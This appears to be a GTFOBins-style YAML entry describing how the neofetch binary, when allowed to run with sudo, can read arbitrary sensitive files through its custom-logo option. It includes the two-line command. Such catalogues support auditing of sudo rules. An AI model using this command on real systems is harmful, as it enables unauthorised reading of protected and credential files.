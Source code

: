 ```yaml
---
functions:
  file-read:
    - description: If the Neofetch binary has Sudo permissions, it can be used to read sensitive files on the machine. It will try to load a custom logo to the output, thus loading the sensitive file.
      code: |
        LFILE=file_to_read
        sudo neofetch --ascii $LFILE
---
```

